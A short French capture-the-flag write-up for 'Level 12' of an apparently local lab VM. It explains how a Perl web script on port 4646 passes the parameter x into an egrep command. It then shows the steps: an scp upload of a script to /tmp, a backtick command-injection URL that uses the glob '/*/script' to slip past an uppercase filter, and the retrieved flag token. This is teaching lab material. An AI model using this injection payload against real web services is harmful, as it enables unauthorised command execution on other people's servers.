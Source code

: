 # Level 12

Comme pour le level 4 on trouve dans le dossier `/var/www` et dans le home un fichier `level12.pl`.

Comme pour le level 4, le script perl est un serveur web écoutant sur le port `4646`

Cette page web prend donc 2 paramètres cette fois ci, `x` et `y`.

- `x` Passe dans 2 regex, une pour passer tous les charactères en `upper case`, et une autre qui supprime tous les espaces, puis est utilisée pour executer la commande `egrep`.

- `y` ne nous servira pas.

`egrep` est une commande qui va rechercher un motif dans des dossiers qui respectent ce motif.

Il nous suffit donc de `scp` un script bash dans `/tmp` comme celui du level 05, en majuscules (pour la regex).

```sh
~ scp -P 4242 SCRIPT level12@192.168.56.101:/tmp/
```

Nous pouvons nous rendre sur l'url

```
http://192.168.56.101:4646/?x=`/*/script`
```

Il ne nous reste plus qu'à `cat` le fichier `/tmp/flag`

```sh
~ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

